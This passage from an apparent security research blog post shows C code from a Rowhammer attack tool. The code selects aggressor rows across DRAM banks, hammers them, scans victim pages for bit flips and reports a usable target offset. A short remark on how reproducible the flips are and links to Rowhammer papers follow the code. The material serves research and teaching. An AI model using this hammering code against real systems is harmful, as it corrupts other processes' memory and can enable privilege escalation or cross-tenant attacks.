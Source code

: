 			aggressor_rk2 = aggressor_ch2 | (rank << ctx->rank_bit);

			/* Loop over every bank */
			for (bank1 = 0; bank1 < ctx->banks; bank1++) {
				aggressors[0] = aggressor_rk1 | (bank1 << ctx->bank_bit);
				i = 1;
				/* Looking for the 3 possible matching banks */
				for (bank2 = 0; bank2 < ctx->banks; bank2++) {
					aggressor = aggressor_rk2 | (bank2 << ctx->bank_bit);
					/* Bank match only if 2 msb are not 0 */
					if ((((aggressors[0] ^ aggressor) >> (ctx->bank_bit + 1)) & 3) != 0)
						aggressors[i++] = aggressor;
					if (i == 4) break;
				}

				/* Ensure victim is all set to bdir */
				for (p = 0; p < NB_PAGES(ctx); p++) {
					victim = victim_row + (ctx->page_size * p);
					memset(victim + RANDOM_SIZE, ctx->bdir, ctx->page_size - RANDOM_SIZE);
				}

				hammer_byte(aggressors);

				for (p = 0; p < NB_PAGES(ctx); p++) {
					victim = victim_row + (ctx->page_size * p);

					for (offset = RANDOM_SIZE; offset < ctx->page_size; offset++) {
						if (victim[offset] != ctx->bdir) {
							if (ctx->bdir)
								victim[offset] = ~victim[offset];
							ctx->flipmap[offset] |= victim[offset];
							ncurses_flip(ctx, offset);
							if ((ret = check_offset(ctx, offset, victim[offset])) != -1) {
								ncurses_fini(ctx);
								printf("[+] Found target offset\n");
								res->victim = victim;
								for (i = 0; i < 4; i++)
									res->aggressors[i] = aggressors[i];
								return ret;
							}
						}
					}
				}
			}
		}
	}
	return ret;
}
{% endhighlight %}

One last interesting thing about row-hammering is the fact that is
reproducible. Some memory cells are less well isolated than others. If we get a
bit-flip in a victim row, then there is a high probability to reproduce that
bit-flip by hammering again the neighbors rows. 


[RG+16]: https://www.usenix.org/system/files/conference/usenixsecurity16/sec16_paper_razavi.pdf 
[BR+15]: https://www.usenix.org/system/files/conference/woot15/woot15-paper-barresi.pdf
[SD15]: https://googleprojectzero.blogspot.fr/2015/03/exploiting-dram-rowhammer-bug-to-gain.html
[KSM]: https://www.kernel.org/doc/Documentation/vm/ksm.txt
[THP]: https://www.kernel.org/doc/Documentation/vm/transhuge.txt
[geometry]: https://depletionmode.com/2015/12/08/whats-in-an-address-ddr-memory-mapping/
[mapping]: http://lackingrhoticity.blogspot.fr/2015/05/how-physical-addresses-map-to-rows-and-banks.html